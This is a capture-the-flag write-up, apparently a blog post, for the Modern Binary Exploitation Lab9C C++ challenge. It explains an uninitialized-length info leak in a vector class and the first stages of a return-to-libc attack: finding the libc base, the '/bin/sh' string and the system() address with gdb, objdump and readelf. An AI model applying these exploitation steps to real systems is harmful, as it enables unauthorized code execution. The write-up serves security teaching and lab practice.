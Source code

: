 ```yaml
---
title: "m0d3rn b1n4ry expl0it4ti0n Lab09 C++ write-up"
author: A1phaZer0
layout: post
category: Write-ups
---
```


>**Lab9C**  

```bash
+===============+
|      envp     |
+---------------+
|      argv     |
+---------------+
|      argc     |
+---------------+
|      ret      |<- ret to libc
+---------------+
|   saved ebp   |<- ebp
+---------------+             --+
|               |               |
\               \               |  
/               /               |
|               |<- vector_data |
+---------------+       DSvector<int> test1;
|      len      |               |
+---------------+               |
|   alloc_len   |               |
+---------------+             --+
```

Because `alloc_len` is initialized to trash, we can do a typical Info leak and call system().  



**_Stage 1_**  
Get base address of libc:  
```bash
$ ldd /levels/lab09/lab9C
...
libc.so.6 => /lib/i386-linux-gnu/libc.so.6
...
```
Return address offset of main is `0x19a83`: 
```bash
$ gdb -batch -ex "disas __libc_start_main" /lib/i386-linux-gnu/libc.so.6
Dump of assembler code for function __libc_start_main:
...
   0x00019a7c <+236>:	mov    DWORD PTR [esp],eax
   0x00019a7f <+239>:	call   DWORD PTR [esp+0x70]
   0x00019a83 <+243>:	mov    DWORD PTR [esp],eax
   0x00019a86 <+246>:	call   0x331e0 <__GI_exit>
...
```
**_Stage 2_**
Get address of `/bin/sh`:  
```bash
$ objdump -s -j .rodata  /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 160a20 002d6300 2f62696e 2f736800 65786974  .-c./bin/sh.exit
```
Get address of system():
```bash
$ readelf -s  /lib/i386-linux-gnu/libc.so.6 | grep "system"
   243: 00119240    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   620: 00040190    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
```